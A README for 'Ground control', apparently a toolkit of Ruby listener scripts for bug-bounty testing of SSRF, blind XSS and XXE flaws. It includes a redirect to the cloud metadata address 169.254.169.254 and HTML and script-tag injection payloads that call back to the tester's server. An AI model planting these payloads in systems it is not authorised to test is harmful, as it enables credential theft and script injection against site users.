 # Ground control
This is a collection of most of my scripts that I use to debug Server Side Request Forgery (SSRF), blind XSS, and insecure XXE processing vulnerabilities. This is still a work in progress, as I'm still collecting all the scripts that I have lingering around. Before using these scripts, I used to rewrite these scripts most of the time or set up listeners with `netcat`. That wasn't scalable, so I started collecting the scripts in a repository, which can be closed easily every time it's needed it on a server.

## Requirements
Running this script requires Ruby 2.3, a valid SSL certificate for a domain you own, and a web server that allows to open port `80`, `443`, `8080`, and `8443`. Port `80` and `443` are used to serve simple web traffic. Port `8080` is an alternative HTTP port that can be useful when traffic on port `80` is blocked. Port `8443` is an alternative port for HTTPS traffic, with the difference that it serves a self-signed SSL certificate. I use this port to determine whether the server does SSL certificate validation. It does not warrant a security report by itself, but is often useful to mention when you're filing the SSRF vulnerability.

## Setting up
Clone this repository and install the required components by running `install.sh`. After that, run `start.sh` to start to listen on all ports. For now, `root` privileges are required because it listens on port `80` and `443`. A future version might solve this problem by switching to a different user context after startup.

## Functions

### Redirects
The `/redirect` endpoint is used to redirect a request to another server or endpoint. This may assist you when you need an external server to redirect back to an internal system. See below for examples.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"
```

### Ping Pong
Sometimes, you simply need a page that responds with a certain body and headers. The `/ping_pong` endpoint does exactly that. Here's a few examples.

```
curl -vv "http://server/ping_pong?body=%3ch1%3eHello%3c/h1%3e"
```

### Blind callbacks
To figure out of an inaccessible system is executing your HTML or XSS payload, add an item the `callback_tokens` in `config.json`. The structure is shown below. This callback contains information where you injected your payload. This will help you identify the root cause of the vulnerability if you receive a callback. Every unique combination of parameter, host, port, path, and method is supposed to have its own `callback_token`.

```
{
  "callback_tokens": {
    "ee34a1791ab345f789": {
      "host": "hackerone.com",
      "port": 443,
      "ssl": true,
      "path": "/webhooks",
      "parameter": "url",
      "method": "POST"
    }
  }
}
```

Depending on what type of vulnerability you want to test for, you have to construct a payload. See below for an example for HTML injections and XSS vulnerabilities. Then, submit the payload to the injection point. You'll see a log entry in `logs/access_log` when a request with that `callback_token` was triggered. Most of the time, I use `tail -f logs/access_log` to see if something triggered.

**HTML injection**
```
<img src="https://server/pixel?callback_token=ee34a1791ab345f789" style="display:none;"/>
```

**Blind XSS**
```
<script src="https://server/collect?callback_token=ee34a1791ab345f789"></script>
```

### Starting another server
The server listens on port `80`, `443`, `8080`, and `8443` by default. However, if you want to start another server on a different port, run `ruby app/server.rb -p :port`. To use SSL, append `-cert :cert.pem`. This is especially useful when a potential SSRF vulnerability only allows to connect on certain ports. Say bye to all the Apache and nginx configuration hacking!
